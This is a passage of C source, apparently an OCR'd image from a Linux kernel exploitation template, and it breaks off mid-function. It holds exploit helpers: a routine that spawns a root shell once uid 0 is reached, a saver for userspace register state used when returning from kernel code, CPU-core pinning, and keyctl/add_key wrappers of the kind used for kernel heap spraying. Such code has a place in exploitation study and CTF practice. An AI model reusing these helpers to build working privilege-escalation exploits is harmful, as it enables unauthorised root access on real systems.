 ```c
/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Syscall keyctl() operator
 */

#define KEY_SPEC_PROCESS_KEYRING -2 /* - key ID for process-specific keyring */
#define KEYCTL_UPDATE           2   /* update a key */
#define KEYCTL_REVOKE           3   /* revoke a key */
#define KEYCTL_UNLINK           9   /* unlink a key from a keyring */
#define KEYCTL_READ             11  /* read a key or keyring's contents */

int key_alloc(char *description, void *payload, size_t plen)
{
    return syscall(__NR_add_key, "user", description, payload, plen, 
                   KEY_SPEC_PROCESS_KEYRING);
}

int key_update(int keyid, void *payload, size_t plen)
{
    return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen);
```